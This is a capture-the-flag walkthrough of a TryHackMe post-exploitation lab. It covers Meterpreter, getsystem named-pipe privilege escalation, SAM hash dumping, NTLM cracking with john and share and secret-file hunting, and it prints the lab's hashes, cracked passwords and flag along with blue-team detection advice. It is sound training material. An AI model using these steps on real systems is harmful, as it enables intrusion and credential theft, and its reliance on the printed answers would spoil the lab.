

# Room Documentation: Metasploit: Post-Exploitation

---

## 1. Metadata & Overview

* **Learning Path:** Jr Penetration Tester
* **Module:** Module 12 — Metasploit and Exploitation (`12-METASPLOIT-AND-EXPLOITATION`)
* **Room Name:** Metasploit: Post-Exploitation
* **Slug:** `metasploitpostexploitation`
* **Direct URL:** [TryHackMe Metasploit: Post-Exploitation](https://tryhackme.com/room/metasploitpostexploitation)
* **Difficulty:** Medium
* **Category:** Walkthrough & Practical Lab Assessment
* **Scenario:** Phase 3 of the **Stratford Systems** penetration testing engagement (Post-Exploitation on `STRATFORD-WS01`)
* **Tasks Count:** 6 tasks
* **Questions Count:** 15 verified questions (100% completion parity)

---

## 2. Executive Summary

The **Metasploit: Post-Exploitation** room represents the core tactical bridge between initial compromise and mission objective fulfillment. Once a reverse shell or stager lands on a target, the penetration tester enters the post-exploitation lifecycle: establishing reliable persistence, escalating local system privileges, harvesting credentials, conducting internal reconnaissance, and identifying business-critical data without triggering host alarms or compromising target stability.

Throughout this assessment against Stratford Systems:
1. **Meterpreter Mastery:** Understanding the underlying in-memory mechanics of the Meterpreter payload powered by Stephen Fewer's Reflective DLL Injection (RDI), leveraging fundamental commands (`sysinfo`, `ps`, `migrate`, `download`, `upload`, `shell`, `background`).
2. **Post-Exploitation Modules (`post/`):** Navigating and deploying modular post-exploitation scripts categorized under `post/windows/gather/` and `post/windows/manage/`.
3. **Privilege Escalation Mechanics:** Dissecting the inner workings of `getsystem` and Windows Named Pipe Impersonation (Technique 1) to elevate unprivileged sessions to `NT AUTHORITY\SYSTEM`.
4. **Credential Harvesting & Analysis:** Dumping the Security Account Manager (SAM) database via `hashdump`, analyzing LSASS memory via the `kiwi` extension, and cracking user `jchambers`'s NTLM hash (`69596c7aa1e8daee17f8e78870e25a5c` -> `Trustno1`).
5. **Secret Discovery & Flag Retrieval:** Enumerating network shares (`projects`), hunting sensitive files (`secrets.txt` exposing Twitter password `KDSvbsw3849!` and `realsecret.txt` in `wwwroot`), and extracting the final flag `THM{Post-Spl1tation}`.

---

## 3. Architectural & Post-Exploitation Workflow Flowchart

The following diagram maps the systematic post-exploitation operational workflow executed on `STRATFORD-WS01`:



---

## 4. Prerequisites & Environment Setup

* **Target Host:** `STRATFORD-WS01` (Windows 7 / Server 2008 R2 architecture in lab subnet).
* **Attacking Framework:** Metasploit Framework v6+ connected to active PostgreSQL database.
* **Cracking Infrastructure:** `hashcat` or `john` paired with `/usr/share/wordlists/rockyou.txt`.

```bash
# Verify database connection
sudo msfdb status

# Launch Metasploit console
msfconsole -q

# Set workspace context
workspace stratford
```

---

## 5. Core Concepts & Technical Deep Dive

### A. Meterpreter Architecture & Reflective DLL Injection (RDI)
Unlike traditional interactive command shells (`cmd.exe`, `/bin/sh`) which spawn native binaries on disk and expose plaintext communication channels, Meterpreter is an advanced, dynamically extensible payload that executes entirely in memory:
* **Reflective DLL Injection:** Injects a dynamic library directly into the address space of a host process without touching the file system, avoiding traditional disk-based AV scans.
* **TLV (Type-Length-Value) Protocol:** Employs strongly-typed binary messages over an encrypted channel (TLS/HTTPS or encrypted TCP), facilitating clean command routing and response handling.
* **Dynamic Modularity:** Extensible at runtime via dynamic extensions (`stdapi`, `priv`, `kiwi`, `extapi`).

### B. Mechanics of `getsystem` (Technique 1 - Named Pipe Impersonation)
When executing `getsystem` without arguments, Metasploit sequentially iterates through elevation techniques. Technique 1 operates via:
1. Creating a custom Windows service running under the `NT AUTHORITY\SYSTEM` context.
2. Opening a dedicated named pipe (IPC mechanism).
3. Starting the service, which connects to the opened named pipe.
4. Calling the Win32 API `ImpersonateNamedPipeClient()` from the listening thread, granting the Meterpreter session a security context identical to the connecting client (`SYSTEM`).

### C. Credential Extraction: SAM vs. LSASS
* **Local Security Account Manager (SAM):** `hashdump` reads the `SAM` and `SYSTEM` registry hives to extract local password hashes. It does not contain domain accounts or interactive plaintext passwords.
* **Local Security Authority Subsystem Service (LSASS):** Interrogated via `kiwi` (`creds_all` / `sekurlsa::logonpasswords`). Accesses active logon sessions, Kerberos tickets, and plaintext credentials held in memory by active or cached security support providers.

---

## 6. Metasploit Post-Exploitation Commands Reference

| Command | Context | Technical Description |
| :--- | :--- | :--- |
| `sysinfo` | Meterpreter | Displays target computer name, OS build, architecture, and language |
| `getuid` | Meterpreter | Displays the current user context running the Meterpreter server |
| `ps` | Meterpreter | Lists running processes, architecture, user tokens, and PIDs |
| `migrate <PID>` | Meterpreter | Moves the payload thread into a different running process in memory |
| `getsystem` | Meterpreter | Automates token impersonation to elevate privileges to `SYSTEM` |
| `hashdump` | Meterpreter | Dumps local NTLM password hashes from the registry/SAM database |
| `load kiwi` | Meterpreter | Loads the Mimikatz-powered Kiwi post-exploitation extension |
| `creds_all` | Meterpreter (Kiwi) | Interrogates LSASS for all active plaintext credentials and hashes |
| `download <Remote> <Local>` | Meterpreter | Transfers remote target files back to the attacker workstation |
| `upload <Local> <Remote>` | Meterpreter | Deploys external scripts or tools onto the target filesystem |
| `shell` | Meterpreter | Drops into a native Windows command prompt (`cmd.exe`) |
| `background` | Meterpreter | Demotes active session to background and returns to `msf` prompt |
| `sessions -i <ID>` | MSF Console | Restores interactive control over a backgrounded session |
| `run post/windows/gather/enum_shares` | MSF / Meterpreter | Enumerates all local and network-accessible SMB shares |

---

## 7. Practical Walkthrough: Stratford Systems (`STRATFORD-WS01`)

### Step 1: Initial Session Verification & Reconnaissance
Upon establishing the Meterpreter session:
```text
meterpreter > sysinfo
Computer        : STRATFORD-WS01
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Meterpreter     : x86/windows
```

### Step 2: Privilege Escalation & SAM Extraction
```text
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jchambers:1000:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
pirate:1001:aad3b435b51404eeaad3b435b51404ee:3b1da22b1973c0bb86d4a9b6a9ae65f6:::
```

### Step 3: Offline NTLM Cracking
```bash
echo "69596c7aa1e8daee17f8e78870e25a5c" > jchambers_hash.txt
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt jchambers_hash.txt
# Cracked Value: Trustno1
```

### Step 4: Share Enumeration & Secret Hunting
```cmd
C:\Windows\system32> net share
Share name   Resource                        Remark
-------------------------------------------------------------------------------
C$           C:\                             Default share
IPC$                                         Remote IPC
ADMIN$       C:\Windows                      Remote Admin
projects     C:\Users\jchambers\Desktop\projects
The command completed successfully.
```

Recursive search across disk drives:
```cmd
C:\> dir /s /b *secret*.txt
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt
c:\inetpub\wwwroot\realsecret.txt
```
* Content of `secrets.txt`: Contains Twitter credentials (`KDSvbsw3849!`).
* Content of `realsecret.txt`: Contains final flag: `THM{Post-Spl1tation}`.

---

## 8. Tasks & Questions Index

| Task # | Task Title | Question Count | Key Solutions & Recovered Flags | Detailed Documentation |
| :---: | :--- | :---: | :--- | :---: |
| 01 | Introduction | 1 | Conceptual understanding of post-exploitation | [TASK-01.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/03-METASPLOIT-POST-EXPLOITATION/TASKS/TASK-01.md) |
| 02 | Meterpreter | 3 | `php/meterpreter/reverse_tcp`, `reverse_https`, `sysinfo`, `download` | [TASK-02.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/03-METASPLOIT-POST-EXPLOITATION/TASKS/TASK-02.md) |
| 03 | Post-Exploitation Modules | 1 | Post modules root directory: `post/` | [TASK-03.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/03-METASPLOIT-POST-EXPLOITATION/TASKS/TASK-03.md) |
| 04 | Privilege Escalation & Gathering | 2 | `getsystem` Technique 1 (Named Pipe Impersonation), `hashdump` | [TASK-04.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/03-METASPLOIT-POST-EXPLOITATION/TASKS/TASK-04.md) |
| 05 | Challenge: Stratford Systems | 7 | `STRATFORD-WS01`, `projects`, `69596c7aa1e8daee17f8e78870e25a5c`, `Trustno1`, `c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt` (`KDSvbsw3849!`), `c:\inetpub\wwwroot\realsecret.txt` (`THM{Post-Spl1tation}`) | [TASK-05.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/03-METASPLOIT-POST-EXPLOITATION/TASKS/TASK-05.md) |
| 06 | Conclusion | 1 | Final acknowledgment of post-exploitation phase | [TASK-06.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/03-METASPLOIT-POST-EXPLOITATION/TASKS/TASK-06.md) |

---

## 9. Defense, Detection & Blue Team Countermeasures

1. **Process Migration Detection:**
   - EDR solutions monitor API call sequences such as `OpenProcess` -> `VirtualAllocEx` -> `WriteProcessMemory` -> `CreateRemoteThread`.
   - Implement Sysmon Event ID 8 (`CreateRemoteThread`) and Event ID 10 (`ProcessAccess`) to flag cross-process thread injection.
2. **Named Pipe & Service Creation Monitoring:**
   - Rapid service creation and destruction under short intervals generates Windows Event ID 7045 (A service was installed in the system).
   - Correlate service creation with named pipe connections from non-standard executable sources.
3. **Credential Guard & LSASS Hardening:**
   - Enable Windows Credential Guard via Group Policy to isolate LSASS in a hardware-virtualized container (VBS), neutralizing `kiwi` / Mimikatz memory scraping.
   - Restrict administrative accounts from reusing passwords across multiple workstations to contain lateral movement.

---

## 10. MITRE ATT&CK Matrix Mapping

| Attack Phase | Technique ID | Technique Name | Operational Implementation in Room |
| :--- | :--- | :--- | :--- |
| **Execution** | T1059.003 | Command and Scripting Interpreter: Windows Command Shell | Using `shell` command to spawn `cmd.exe` |
| **Defense Evasion** | T1055 | Process Injection: Reflective DLL Injection | Meterpreter architecture & `migrate` command |
| **Privilege Escalation** | T1134 | Access Token Manipulation: Named Pipe Impersonation | Elevating via `getsystem` (Technique 1) |
| **Credential Access** | T1003.002 | OS Credential Dumping: Security Account Manager (SAM) | Dumping NTLM hashes via `hashdump` |
| **Discovery** | T1082 | System Information Discovery | Interrogating host parameters via `sysinfo` |
| **Discovery** | T1135 | Network Share Discovery | Enumerating network shares (`projects`) |
| **Discovery** | T1083 | File and Directory Discovery | Locating `secrets.txt` and `realsecret.txt` |
| **Collection** | T1005 | Data from Local System | Exfiltrating data via `download` command |

---

## 11. Common Pitfalls & Troubleshooting

* **Issue: `getsystem` returns `Access is denied`.**
  * *Root Cause:* The initial payload process may have limited rights or architectural mismatch (32-bit stager on 64-bit OS).
  * *Remedy:* Migrate to an existing stable 64-bit system service (`spoolsv.exe` or `explorer.exe`) before executing `getsystem`.
* **Issue: `hashdump` fails or returns empty output.**
  * *Root Cause:* The session is not operating under full `NT AUTHORITY\SYSTEM` context.
  * *Remedy:* Verify identity with `getuid` first. Ensure elevation succeeds before interrogating the SAM registry hives.

---

## 12. Technical Comparisons

| Metric / Dimension | Native Command Shell (`cmd.exe`) | Meterpreter Payload |
| :--- | :--- | :--- |
| **Execution Context** | Disk-resident binary execution | Fully in-memory fileless reflective DLL |
| **Communication Protocol** | Raw unencrypted or simple stream | Strongly typed TLV packets over TLS/TCP |
| **Extensibility** | Fixed OS CLI utilities | Dynamic dynamic modules (`kiwi`, `priv`) |
| **Detection Surface** | High process execution telemetry | Low footprint, requires memory/EDR inspection |

---

## 13. Best Practices & Rules of Engagement

1. **Strict Scope Adherence:** Only access shares, files, and directories explicitly defined within the agreed Rules of Engagement.
2. **Process Integrity:** Avoid migrating into mission-critical services (`csrss.exe`, `lsass.exe`, `winlogon.exe`) whose interruption triggers immediate host crash (BSOD).
3. **Artifact Cleanup:** Log every file created, modified, or transferred during testing to guarantee total post-test remediation.

---

## 14. References & Official Links

* [TryHackMe Metasploit: Post-Exploitation Room](https://tryhackme.com/room/metasploitpostexploitation)
* [Rapid7 Meterpreter Documentation](https://docs.metasploit.com/docs/using-metasploit/intermediate/meterpreter.html)
* [Microsoft Named Pipes Overview](https://learn.microsoft.com/en-us/windows/win32/ipc/named-pipes)
* [MITRE ATT&CK: Credential Dumping (T1003)](https://attack.mitre.org/techniques/T1003/)
* [Task Guide (TASKS.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/03-METASPLOIT-POST-EXPLOITATION/TASKS.md)
* [Additional Technical Notes (ADDITIONAL-NOTES.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/03-METASPLOIT-POST-EXPLOITATION/ADDITIONAL-NOTES.md)
* [Official References (REFERENCES.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/03-METASPLOIT-POST-EXPLOITATION/REFERENCES.md)
